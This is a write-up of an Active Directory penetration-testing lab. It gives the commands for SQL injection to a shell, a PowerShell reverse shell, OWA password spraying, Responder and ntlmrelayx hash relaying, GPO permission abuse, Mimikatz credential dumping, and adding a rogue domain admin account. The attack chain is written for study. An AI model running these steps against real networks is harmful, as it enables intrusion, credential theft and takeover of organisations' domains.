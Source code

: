 # lkylabs version 1 writeup by chryzsh

This is a detailed writeup of version 1 of lkys37en's Active Directory lab. It contains elements of network enumeration, domain enumeration, relaying and abusing configuration/misconfiguration of security controls.

**Tools**
* Empire
* Powershell
* Responder
* Bloodhound
* Powerview
* Mimikatz
* Sqlmap
* Nmap
* CrackMapExec


## Network enumeration
nmap 10.7.12.11
10.7.12.12
10.7.12.13

## Getting a foothold
Sqlmap

Sql injection on WEB01 10.7.12.12 leads to os-shell as lab\sqladmin in sqlmap

In os-shell, use oneliner ninshang Invoke-PowerShellTcp.ps1 to get a proper shell


## Get a domain user
Get list of domain users with net users /domain

### Alternative route: password spraying
https://www.youtube.com/watch?v=hBvrC4t2hn8
Generate a list of passwords https://github.com/asciimoo/exrex


```
python exrex.py "(Spring|Winter|Autumn|Fall|Summer)(20)1(78)!" > passwords.txt
```

msfconsole
auxiliary/scanner/http/owa_login
set pass_file passwords.txt
set user_file usernames.txt
set domain
set rhost 10.7.12.10

## Domain enumeration
Bloodhound
Powerview

## File share enumeration
Powerview
net view \\fs01
dir \\fs01


Enumerate file shares. Find the \\FS01.lab.local\Groupdata using dir \\FS01.lab.local\ as sqladmin. You can also try net view \\fs01

The file share contains a VPN file that can be used to open a L2 tunnel into the internal lab on 10.8.13.0/24 subnet



## Relaying
Responder
ntlmrelay
CME?

Launch responder and capture netntlmv2 hashes that can be relayed. Responder should pick up two users
responder -I tap0 -wrf


Make a list of target machines, those should be WS05 if you check permissions of the users that are picked up.

Use ntlmrelay to relay the hashes and execute the ninshang powershell oneliner. Keep a listener ready

ntlmrelayx.py -tf targets.txt -c 'powershell.exe blabla oneliner'

A shell should now be granted on the target box as the user who's hash was relayed (lab\DPayne)


## GPO enumeration
Powerview

Enumerate GPOs with `Get-NetGPOGroup` to disover a GPO called MailServer-Config, which is interesting

Convert the SID of the Member to domain name

```
Convert-SidToName S-1-5-21-1704012399-894155344-4184019992-1154
```


This resolves to BUILTIN\Administrators
Enumerate GPOs further, including the MailServer-Config


```
Get-NetGPO | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```


This shows that Server Admins has write permissions on the GPO, which is a serious misconfig



```
ActiveDirectoryRights : CreateChild, DeleteChild, ReadProperty, WriteProperty, GenericExecute
Get-NetGPO -DisplayName MailServer-Config | %{Get-ObjectAcl -ResolveGUIDs -Name $_.Name}
```


We see that the group "Server Admins" has modification rights on this GPO. Let's trackthis back to which machines the GPO is applied to



```
Get-NetOU -GUID "{2259E5B0-3B49-4704-98BB-5A9581B54E8E}" | %{Get-NetComputer -ADSpath $_}
```


The result is merely MX01.lab.local, which indicates the GPO is applied on MX01
To view the GPO itself use:
 `type "\\lab.local\sysvol\lab.local\Policies\{2259E5B0-3B49-4704-98BB-5A9581B54E8E}\MACHINE\Preferences\Groups\Groups.xml"`
 
This GPO apparently adds a group to the builtin Administrators group on MX01. This can then be edited to instead add the "Server Admins" group.

To trigger the GPO for a specific machine use: `Invoke-GpUpdate -Computer MX01 -Force`

In a few minutes the GPO should be pushed to MX01 and local admin privileges should be granted to "Server Admins". It is then possible to use WinRM or other tricks to spawn a shell on the box.


## Getting domain admin
Mimikatz

Now, execute Mimikatz to get the credentials of users on the box. This gets the credentials of BDavis, a highly privileged server admin. Spawn a shell as BDavis on the box
Import Powerview on this box
Now, execute Mimikatz on MX01 and discover another user and his/her plaintext credentials. This user is domain admin so spawn a new shell. An alternative here would be using token impersonation.
Proceed to add yourself as a user on the domain and add yourself to the domain.
net user chryzsh password /add /domain
net group "Domain Admins" /add chryzsh /domain
net group "Remote Desktop Users" /add lab\chryzsh /domain

